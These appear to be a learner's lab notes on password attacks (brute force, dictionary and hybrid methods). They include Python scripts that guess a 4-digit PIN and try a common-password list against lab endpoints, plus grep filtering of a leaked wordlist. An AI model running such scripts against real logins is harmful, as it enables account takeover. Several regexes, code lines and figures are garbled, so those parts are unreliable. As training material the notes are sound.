




# Brute Force Attack:
To truly grasp the challenge of brute forcing, it's essential to understand the underlying mathemathics.
[Possible combinations = Character Set Size^Pass Length]
A 6-Character pass using only lowercase letter has 26^(aprox 300 million) Possible combinations. An 8-Character pass with thge same Character set has 26^8[200 billions] combinations.
The exponential growth in the number of combinations highlights the imporatance of pass length and complexity. Even a small increase in length or inclusion of additional
Character types can dramatically increase the time and resources required for a successfull brute-force attack.
Consider a few scenarios to illustrate the impact of pass length and Character set on the search space:

Even the slight increase in password lenght or the inclusion of additional Character types dramatically expands the search spaces. The significantly increase the number
of possible combinations that an attacker must try, making brute-forcing increaseasingly challenging anf time-consuming. The time it takes to crack a password just depend on the size
of the search space.
The more powerful the attacke's hardware the more pass guesses they can make per second. While the complex pass can take years to brute-force with a single machine, s sophisticated attacker
using a distributed network of high-performance computing resources could reduce that time drastically.

The above chart illustrate an exponential relationship btw pass complexity and cracking time. As the pass lenght increase and the character set explnads the total number of possible combintions
grows exponentially. Comparing the basic computer and the supercomputer:
- Basic Computer: Adequete for cracking simple pass quicly but become impractically slow for complex pass. Cracking an 8-character pass using letters asn digits would takse 6.92 years.
- Supercomputer: Reduces craking time gor simpler pass, even with this immense power, craking higly complex pass can take an impractical amount of time.


- Cracking a pin:
The instance app generates a random 4-digits PIN and exposes an endpoint that accepts a PON as query parameter. The provided PIN matches the generated one, the app responds with a success message and a flag.
It returns an error message.
We will use the simple demostration script to brute-force endpoint on th API.
```py

import requests

ip = "94.237.61.187"
port = 34622

for pin in range(10000):
    formatted_pin = f"{pin:04d}"
    print(f"Attempted PIN: {formatted_pin}")

    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    if response.ok and 'flag' in response.json():
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break


```
Flag: HTB{Brut3_F0rc3_1s_P0w3rfu1}

# Dictionary Attacks:
- The power of Words:
The effectiveness of dictionary attacks lies in its ability to exploit the human tendency to prioritize memorable pass over secure ones. Depends repeted warning, many individuals
continue to opt pass based on readily avaliable information such as dic words, common pharses, names or ez guessable patterns. The prdictability makes them vulnerable to dictionary
attacks, where atackers systematicallyt test a pre-defined list of potential pass against the target system.

The success of a dictionary attack hinges on the quality an spcecially of the wordlist used. A well-crafted wordlist tailored ti the target audiencee or system can significally increase
the probability of a successful breach. It the target is a systerm frequented, a wordlist enriched with gaming-related terminology and jargon would prove more effective than genreic dictionary.
The more closely the wordlist reflects the likely pas choices of the target, thi higher the chances of a successful attack.

The concept of a dictionary attack is rooted in understanding human psychology and common pass practices.

- Brute Force vs Dictionary Attacks:
The fundamental distinction between a brute-force and a dictionary attacks in their methodology for generating potential pass:
    - Brute force: Attack systematically test every possible combination of characters within a predeterminated set and length. While this approach guarentees eventual success give enough time, it
    can be extremely time-consuming, particulary against longer or complex pass.
    - Dictionary Attacks: A dictionary attack employs a pre-compiled list of words and pharses, dramatically reducing the search spces. This targeted methodoly results in a far more efficient and rapid
    attack, especially  when the target pass is suspected to be a common word or pharse.



Consider a hypothetical scenario where an attacker targets a company's employee login portal. The pass might be construct like:
- Commonly used, weak pass.
- The company name an variations thereof
- Names of employees or departments
- Industry-specific jargon

## Building an Utilizing Wordlists:
- Publicly Avaliable lists: The internet hosts plethora of freely accesible wordlist, encompassing collections of Commonly used pass, leaked credentials for data breaches and other
potentially valuable data, Sectlist offer varius wordlists catering to varius attacks scenarios.
- Custom-Built Lists: Penetration testers can craft their wordlists by levering information gleaned during the reconnaissace phase. This might include details about the target's interests,
hobbies, personal infromation, or any other pass.
- Specialized Lists: Can be further refined to target specific industries, apps, or even individuals companies, These specilized lists increase th likelihood of success by focusing
on pass that are more likely to be used within a particular context.
-  Pre-existing Lists: Tools or frameworks come pre-packaged with commonly used wordlist. Penetration testing distinctions like Parrot sec inlude wordlist like rockyou.txt.

More usefull wordlist:


## Throwing a dictionaty at the problem:
The insatance app creates rout that handles POST requests. Password parameter in th request's form data, receving a requests, it compares the submitted pass against the expected value.
Returns an Error message with a 401 status code.
```py
import requests
ip = ""
port = 4444

passwords = requests.get("https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

for password in passwords:
    print(f"Attempts password: {passwords}")

    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break

```

1. Dowloads the wordlist: The script fetches a wordlist of 500 commonly used pass form seclist usin the requests library.
2. Iterates and submists Pass: The iterates through each pass in the Dowloads wordlist, It sends POST requests to the flask apps /dictionary enpoints, including the pass in the request's form data.
3. Analyzes Responses: the script checks the response status code after each requests. 200 [OK], ir examines the response content futher. The response contains the 'flag' key, it signifies a scuessfull login.
4. Continues or Terminates: The response doesn't indicate success, the scipt proceeds to th next pass in the wordlist.


# Hybrid Attacks:

Many organization implement policies requiring users to change their pass periodically ot enhance security, these policies can inadvertently breed predctable pass patterns if user are not adequeately educated
on proper pass hygiene.
A widespread an inscure practice among useres is making minor modofications to their pass when forced to change them. This often manifests as appending a number or a special character to the end of the current pass.
A use might have an initial pass like "Summer2023' and then, when prompted to updated it change it to "Summer2023!" or "Summer2024".
This predictables behavior creates a loophole that hybrid attacks can exploit ruthlessly. Attackers capitalize in this human tendency by employing sophisticated tech that combine
the strenghts of dictionary and brute-force attacks, drastically increasing the likelihood of successful pass breaches.

- Hybrid Attacks in Action:


The attackers begins by launching a dictionry attacks, usin a wordlist current with common pass, Industry-specific terms, and potentially
personal information realted to the organization or its employees. This phase Attempts to quickly identify any low-hanging.
If the dictionary attacks proces unsuccessful, hybrid attack seamlessly trasitions into a brute-force mode, Instead of randomly generating
pass combinations.

- The Power of hybrid attacks:
Effectiveness of hybrid attacks lies in their adaptability and effecieny, leverage the strenghts of both dictionary and brute-forcin tech, maximizatin the chances of cracking pass, epecially in scenarios
where users fall into predictable patterns.

Note that hybrid attacks lies in thir adaptability and effeciently. They leverage the strenghts of both dictionary and brute-force techniques, maximizing the chances of cracking pass,
espcially in scenarios where users fall into predictable patterns.
Note that hybrid attacks are not limited to the pass changes scnearios, can be tailoredto explot any observed or suspected pass paterns within a target organization, cosider scenario where u have
sccess to a common pass wordlist, and you're targeting an organization with the following pass:
- 8 character length
- Must include:
    - At least one uppercase letter
    - At least one lowercase letter
    - At least one number

To extract only the pass thjat adhere to this policy, we can leveragethe powerful command-line tools avaliable on most Linux based system by def,.
Fists dowload the wordlist:
`darkweb2017-top100000.txt`
Then start matching with the pass policy:
`grep -E '^{8,}$ darkweb2017-top100000.txt > darkweb2017-minlength.txt`

This initial grep command targets the code policy requiremet of a minimunm pass length of 8 characters. the regular expressiong acts as a filter, ensuring that only pass containing a least 8 characters
are passed thoight and saved in a temporary file name darkweb2017-minlength.txt
`grep -E '[A-Z]' darkweb2017-minlength.txt > darkweb2017-uppercase.txt`
This grep command enforces the policy demand for at least one uppercase letter, the regular expression [A-Z] ensures that any pass lacking an upper letter is discareded.
`grep -E [a-z] darkweb2017-uppercase.txt > darkweb2017-lowercase.txt`

Maintaining the filtering chain, this grep command enusers complices with the policy's requiremet for at least one lowercase letter, the regular expression [0-9] acts as a filter, ensuring that pass containing
at least one numeraical digit are preserver in darkweb2017-number txt
`grep -E '[0-9] darkweb2017-minlength.txt > darkweb2017-number.txt`

